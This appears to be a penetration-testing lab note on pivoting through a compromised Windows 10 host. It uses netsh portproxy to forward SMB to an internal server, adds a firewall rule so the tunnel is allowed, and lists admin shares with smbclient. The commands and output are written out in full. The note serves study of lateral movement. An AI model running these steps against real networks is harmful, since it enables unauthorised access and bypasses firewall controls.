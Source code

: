   
  
### NETSH

Scenario:  
	Compromised Win10 (10.11.0.22) & privesc, 2 nic's & a Win Server2016 (192.168.1.110) w/ port 445 open.  
	Since we're SYSTEM on Win10, we don't deal w/ UAC.  
  
****NOTE: For this to work, the Windows system must have the _**IPHelper**_ service running and _**IPv6**_ support must be enabled for the interface we want to use.  

```powershell
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110  
  
netstat -anp TCP | find "4455"                                                
	TCP    10.11.0.22:4455        0.0.0.0:0              LISTENING  
```
.  
	**v4tov4** - IPv4-to-IPv4  
	**portproxy** - Proxy  
	**listenaddress=10.11.0.22** - Listener IP (Win10)  
	**listenport**=**4455** - Listener port (Win10)  
	**connectaddress=192.168.1.110** - Connector IP (Server2016)  
	**connectport=445** - Connector port (Server2016)  
  
  
By default, the FW will block use of our tunnel (disallows inbound traffic on 4455).  
Since we're SYSTEM, we'll change FW rules:  
```powershell
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow  
	Ok.
```

  
Try to connect through SAMBA:  
```bash
smbclient -L 10.11.0.22 --port=4455 --user=Administrator  
Password for [WORKGROUP\Administrator]:  
  
        Sharename       Type      Comment  
        ---------       ----      -------  
        ADMIN$          Disk      Remote Admin  
        C$              Disk      Default share  
        Data            Disk        
        IPC$            IPC       Remote IPC  
        NETLOGON        Disk      Logon server share   
        SYSVOL          Disk      Logon server share   
Reconnecting with SMB1 for workgroup listing.  
do_connect: Connection to 192.168.126.10 failed (Error NT_STATUS_IO_TIMEOUT)  
Unable to connect with SMB1 -- no workgroup available  
```
	***NOTE (Not error shown): If this doesn't work, ensure _/etc/samba/smb.conf_ has “min protocol SMB2” in it.  
  